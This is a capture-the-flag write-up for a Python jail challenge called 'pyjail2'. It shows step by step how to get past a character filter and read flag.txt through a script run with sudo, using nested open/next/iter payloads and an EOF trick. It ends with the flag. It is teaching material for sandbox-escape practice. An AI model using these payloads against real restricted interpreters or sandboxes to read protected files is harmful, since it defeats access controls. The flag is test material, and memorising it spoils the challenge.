 # pyjail2

## Write-up
If we check `sudo -l` we will find out that we can execute `challenge.py` as the user cracked that can read the `flag.txt`.

If we see the source code, we notice that it's exactly like `pyjail1` with the only difference being that the `breakpoint` function is filtered, so the solution for `pyjail1` won't work. Since we don't really need to get a shell but only to read the content `flag.txt`that's what we are going to try.

In order to do this, we need to reproduce this `open("flag.txt")`  with only the allowed characters.

### Step 1 

We can't write `"flag.txt"` directly, so we need to find an alternative for this. `open(input())` will do the work, but it's filtered. Another way to get input is by reading the file descriptor 0, 

```python
open(open(0).read())
``` 

Now we need to find a way to replace `0` with something else, and for that there are multiple solutions:

- `len(list())`

- `int()`

- `int(bool())`

We will end up with this payload: 

```python
open(open(int()).read())
```

### Step 2 

The next step is trying to bypass the `.read`. After some investigation, you may discover that you can accomplish this using for in the following manner:

```python

[line for line in open(int())]

```

Since we only need the first line, we can take advantage of `next` and `iter` and use it to read only the first line.

```python
print(next(iter(open(int()))))
```

```python
>>> print(next(iter(open(int()))))
flag.txt
flag.txt
```

We got flag.txt now we just need to read it using the same method.

```python
print(next(iter(open(next(iter(open(int())))))))
```

But it won't work after writing `flag.txt` and pressing `enter`. We get this 

```
FileNotFoundError: [Errno 2] No such file or directory: 'flag.txt\n'
```

That's because when pressing enter to indicate the end of your input, it will add `\n` to the name of the file, making it wrong.

### Step 3

We must find a way to end the input stream without pressing enter. This can be done using `EOF` which indicates the end of the stream and there is special signal for it. If you press `CTRL + D` it will send and `EOF` signal making the open stops reading and allowing you to only write `flag.txt` and get the flag.


## Flag

`shellmates{I7's_4ll_4b0U7_PYYYYY_SKILZZZ}`
